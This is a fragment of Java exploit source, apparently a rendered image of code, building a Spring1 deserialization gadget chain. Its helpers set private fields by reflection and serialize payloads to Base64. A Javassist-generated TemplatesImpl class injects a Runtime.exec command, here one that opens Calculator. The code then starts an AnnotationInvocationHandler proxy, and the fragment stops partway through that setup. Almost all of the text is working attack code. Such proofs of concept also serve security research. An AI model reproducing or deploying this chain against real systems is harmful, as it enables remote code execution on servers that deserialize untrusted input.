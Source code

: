 ```java
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static Object templatesImpl() throws Exception {

        // 生成恶意的 bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("Spring1Exploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // 实例化类并设置属性
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
        return templatesImpl;
    }

    public static void main(String[] args) throws Exception {

        // 使用 AnnotationInvocationHandler 动态代理
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", templatesImpl());

```